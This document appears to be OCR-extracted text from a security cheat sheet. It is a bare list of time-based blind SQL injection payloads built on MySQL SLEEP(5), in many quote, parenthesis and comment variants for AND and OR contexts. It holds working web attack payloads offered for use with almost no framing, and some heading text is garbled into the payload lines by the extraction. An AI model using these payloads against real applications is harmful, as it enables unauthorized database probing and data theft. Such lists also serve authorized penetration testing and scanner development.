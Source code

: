  and sleep 5--
 and sleep 5
 and sleep(5)--
 and sleep(5)
 and SELECT SLEEP(5); #
' AND SLEEP(5)#
" AND SLEEP(5)#
<strong>') AND SLEEP(5)#OR BLIND:or sleep 5--
</strong>or sleep 5
or sleep(5)--
or sleep(5)
or SELECT SLEEP(5); #
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
 or sleep 5--
 or sleep 5
 or sleep(5)--
 or sleep(5)
 or SELECT SLEEP(5); #
' OR SLEEP(5)#
" OR SLEEP(5)#
') OR SLEEP(5)#
<strong>You can replace AND / OR1 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)
</strong>1 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (1337=1337
1 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND '1337'='1337
') AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ('PBiy'='PBiy
) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (1337=1337
)) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ((1337=1337
))) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (((1337=1337
1 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)# 1337
) WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
1 WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
+(SELECT 1337 WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY))+
)) AS 1337 WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
) AS 1337 WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
` WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
`) WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
`=`1` AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND `1`=`1
]-(SELECT 0 WHERE 1337=1337 AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY))|[1
') AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
" AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
') AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ('1337'='1337
')) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (('1337'='1337
'))) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ((('1337'='1337
' AND (SELECT 3122 FROM (SELECT(SLEEP(5)))YYYY) AND '1337'='1337
') AND (SELECT 4796 FROM (SELECT(SLEEP(5)))YYYY) AND ('1337'='1337
')) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (('1337' LIKE '1337
'))) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ((('1337' LIKE '1337
%' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND '1337%'='1337
' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND '1337' LIKE '1337
") AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ("1337"="1337
")) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (("1337"="1337
"))) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ((("1337"="1337
" AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND "1337"="1337
") AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ("1337" LIKE "1337
")) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND (("1337" LIKE "1337
"))) AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND ((("1337" LIKE "1337
" AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY) AND "1337" LIKE "1337